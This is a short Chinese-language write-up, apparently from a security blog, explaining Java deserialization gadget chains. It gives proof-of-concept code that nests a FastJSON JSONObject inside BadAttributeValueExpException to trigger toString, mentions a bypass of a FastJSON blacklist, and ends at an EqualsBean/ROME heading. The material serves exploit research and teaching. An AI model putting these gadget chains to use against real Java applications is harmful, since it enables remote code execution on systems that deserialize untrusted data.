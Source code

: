 #### BadAttributeValueExpException

**JDK原生可用**

这个就很简单了，`BadAttributeValueExpException.readObject()`直接走到它里面对象的toString

代码如下

```plain
Object tpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("gg",tpl);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,jsonObject);
//      用于Reference包裹绕过FastJSon高版本resolveClass黑名单检查,from Y4tacker
/*        HashMap hashMap = new HashMap();
        hashMap.put(tpl,poc);*/
        serialize(poc);
        unserialize("ser.bin");
```

`BadAttributeValueExpException.readObject()`

```plain
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString(); //在这里调用了里面对象的toString()方法
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

#### EqualsBean

**依赖于ROME，在其1.12.0版本前均可用**
